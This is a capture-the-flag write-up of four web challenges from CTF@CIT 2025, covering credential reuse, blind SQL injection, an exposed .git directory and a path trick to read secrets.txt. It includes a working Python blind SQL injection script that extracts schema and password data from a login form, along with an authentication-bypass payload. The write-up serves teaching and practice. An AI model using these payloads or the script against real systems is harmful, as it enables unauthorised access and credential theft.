 ```yaml
---
title: 'CTF@CIT'
description: 'some web writeups for CTF@CIT 2025'
date: 2025-05-02
image: './image.png'
---
```


# keeping up with the credentials

## Description

I'm all about strong passwords. If you're not using one, you're just playing yourself.

This challenge requires something that can be acquired in any of the other web challenges.

## Solution

Here we've been given with a website looking like this.

 ![](./img1.png)

Since we obtained the credentials of `admin:9f3IC3uj9^zZ` from @[breaking authentication](mention://575ed52d-d831-46b9-a70b-afad2ee03550/document/7bf4b60e-7a20-4606-9aa5-b092e8c12ebf) challenge, we try to login and we get to a debug page, which is not that useful.

Now usually when we login it's a `GET` request

 ![](./img2.png)

Let's just try changing that to a POST request, and it'll send a `302 found` of `/admin.php` and going to `/admin.php` we get the flag.

 ![](./img3.png)


# breaking authentication

## Description

"Say my username."

## Solution

Here we've been given with a website which looks like this.

 ![](./img4.png)

The first line of thought would be to do SQLi. So writing `admin' OR '1'='1` we get admin panel access but there's nothing there so go ahead and do blind SQLi.


Writing this script we find the tables in the database schema-

```python
import requests

url = "http://23.179.17.40:58001/"

# Query to extract all table names
query = "(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database())"

# Find the length first
k = 0
for i in range(1, 300):  # Tables might be many, increased range
    print("\r -> trying length ", i, end="")
    payload = '\' OR LENGTH(' + query + ') = \'' + str(i)
    data = {'username': 'admin', 'password': payload, 'login': 'Login'}
    r = requests.post(url, data=data, allow_redirects=True)
    if r.url.endswith("/admin.php"):
        print(f"\n[+] Found length of table names output: {i}")
        k = i
        break

if k == 0:
    print("[-] Length of response is greater than 300, adjust range")
    exit()

returnval = ""
q2 = '\' OR ASCII(SUBSTRING(' + query + ','

for i in range(1, k + 1):
    low = 32
    high = 126
    while low <= high:
        mid = (low + high) // 2
        # Prepare payload to check if character ASCII <= mid
        payload = q2 + str(i) + ",1)) <= '" + str(mid)
        data = {'username': 'admin', 'password': payload, 'login': 'Login'}
        r = requests.post(url, data=data, allow_redirects=True)

        if r.url.endswith("/admin.php"):
            # ASCII code is <= mid
            high = mid - 1
        else:
            # ASCII code is > mid
            low = mid + 1

    found_char = chr(low)
    returnval += found_char
    print(f"[+] Found character {i}: {found_char}")

print(f"\n[+] Final extracted table names: {returnval}")
```

The tables we find are `users` and `secrets`

In the secrets table, the columns are name and value, and altering the query to 

`query = "(SELECT GROUP_CONCAT(password) FROM users)"`

we get the flag: `CIT{36b0efd6c2ec7132}`

# commit & order: version control unit

## Description

In software development, the repository is represented by two separate yet equally important branches...

## Solution

Here we've been given a website which looks like this.

 ![](./img5.png)

Since it talks about commit order and version control, we proceed to `/.git/HEAD` endpoint giving another endpoint to `ref: refs/heads/master`

From here, we use `GitTools`, specifically `Dumper` to get all the folders from the site and `Extractor` to extract the source code prior to each commit.

After extracting, we see that there are 5 folders with their respective commits.

 ![](./img6.png)

We examine the source code for each of the folders and in the `commit: 1-68f8fc..` we see the source code:

```markup
<div class="warning-banner">
      <svg width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
        <path d="M1 21h22L12 2 1 21zm12-3h-2v2h2v-2zm0-8h-2v6h2v-6z" />
      </svg>
      This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
    </div> 
 </div>
```

We find a base64 encoded text and decoding it we obtain: `CIT{5d81f7743f4bc2ab}`

# how I parsed your JSON

## Description

"This is the story of how I defined your schema."

The flag is in secrets.txt

## Solution

Here we've been given a website which looks like this.

 ![](./img7.png)

This application uses `FlaskMyAdmin` which uses SQL like syntax, and our aim is to access secrets.txt.

In the site itself it defaults the `employee.json` table to `employee`. Hence to obtain the flag we'd have to intercept the request on Burp Suite and alter the request to access `/app/secrets.txt.txt`

 ![](./img8.png)
 Doing this we obtain the flag: `CIT{235da65aa6444e27}`